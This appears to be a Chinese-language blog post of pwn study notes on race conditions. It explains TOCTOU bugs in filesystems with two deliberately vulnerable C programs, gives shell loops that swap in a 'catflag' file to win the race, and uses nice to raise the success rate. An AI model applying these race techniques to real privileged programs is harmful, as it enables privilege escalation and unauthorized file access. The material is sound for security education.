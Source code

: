 ```yaml
---
layout: post
tags: [pwn]
title: "race conditions"
author: wsxk
date: 2024-12-11
comments: true
---
```


- [1. 什么是race condition](#1-什么是race-condition)
- [2. races in filesystem](#2-races-in-filesystem)
  - [2.1 races in filesystem 原理](#21-races-in-filesystem-原理)
  - [2.2 提高rece condition成功概率的方法](#22-提高rece-condition成功概率的方法)
    - [2.2.1 方法一: nice](#221-方法一-nice)
- [3. processes and threades](#3-processes-and-threades)


# 1. 什么是race condition<br>
在古早时期，CPU是单核的，但是你想在这颗CPU上运行多个进程，这意味着:<br>
```
用户感受到两个进程同时运行，但是实际上在某个时刻内，只有一个进程能被执行
只不过用户(人)感受不到这个变化
```
现代，CPU是多核的，但是:<br>
```
1. 进程数量还是多于核数
2. 内核因此还是需要决定什么时候调度哪些进程
3. 存储控制器的通道有限（四通道），存储媒介通道有限，网络通信是单通道的
```
这些限制都导致计算机无法同时运行所有进程。<br>
`race condition`出现的核心要旨是**计算设备的瓶颈导致并发的事件至少有一部分需要被序列化**<br>
**通常，没有隐式依赖或者程序显式的努力，执行顺序只能在进程内(一个线程)得到保证**<br>
这也导致一个问题，如果进程A和B都检查文件C的内容(check),符合条件就更新文件C(change)；然后进程A和B按照如下顺序被执行:<br>
```
1. A check #通过
2. B check #通过
3. A change # A改变了C的内容
4. B change # 讲道理此时不应该执行B，但是B还是能被执行，导致C的内容被改变了2次
```
这就是`race condition`!<br>
**要想利用race condition，我们需要在应用执行的薄弱时期，精细地影响其状态才行**<br>

# 2. races in filesystem<br>
书接上回，攻击者通过改变程序运行的状态，而程序假设它的状态没有改变,导致`race condition`<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241212221549.png)
为了利用`race condition`,攻击者需要能够影响所说的环境，**Races in filesystem**就是一个很常见的例子。<br>
## 2.1 races in filesystem 原理<br>
文件系统是攻击者能够经常影响的程序环境的一部分。<br>
利用文件系统实施攻击，本质上是在进程运行时，操控进程运行所需的文件达到利用`race condition`的目的。<br>
考虑这段代码:<br>
```c
int main(int argc, char **argv) {
    int fd = open(argv[1], O_WRONLY | O_CREAT | O_TRUNC, 0755);//O_TRUNC 标志在打开文件时会丢弃文件原本的内容，即清0
    write(fd, "#!/bin/sh\necho SAFE\n", 20);
    close(fd);
    execl("/bin/sh", "/bin/sh", argv[1], NULL);
}
```
在open打开文件和实际执行/binsh之间存在空窗期可以利用！<br>
```
具体利用步骤:
1. gcc fs1.c -o fs1
2. 启动一个terminal， 运行 while /bin/true; do cp -v catflag asdf; done
3. 再启动一个terminal，运行 for i in $(seq 1 2000); do ./fs1 asdf; done | tee output
   运行 sort output | uniq -c 查看运行次数  
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213210133.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213211751.png)

## 2.2 提高rece condition成功概率的方法<br>
考虑如下代码:<br>
```c
int main(int argc, char **argv) {
    int echo_fd = open("/bin/echo", O_RDONLY);
    int fd = open(argv[1], O_WRONLY | O_CREAT, 0755);
    sendfile(fd, echo_fd, 0, 1024*1024);
    close(fd);
    execl(argv[1], argv[1], "SAFE", NULL);
}
//这段代码的空窗期比2.1提到的小得多，主要原因是/bin/sh执行时需要加载很多system call
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213211831.png)
这概率小太多了，因此，我们需要提高成功率的方法！<br>

### 2.2.1 方法一: nice<br>
`nice`命令和`nice system call`允许用户设置进程在`linux kernel`调度器中的优先级。<br>
`linux kernel scheduler`的优先级从高到低 为-20~19，优先级越高的进程，能够获得cpu资源的比例就越高<br>
`ionice`的用法和`nice`差不多，只不过它设置的是进程的io调度优先级<br>

用法如下:<br>
```
1. 启动一个terminal， 运行 while /bin/true; do cp -v catflag asdf; done
2. 再启动一个terminal，运行 for i in $(seq 1 2000); do nice -n 19 ./fs2 asdf; done | tee output
   运行sort output | uniq -c
```

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241214001123.png)
可以看到，概率还是命中次数差不多提升了一倍。<br>



# 3. processes and threades<br>


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>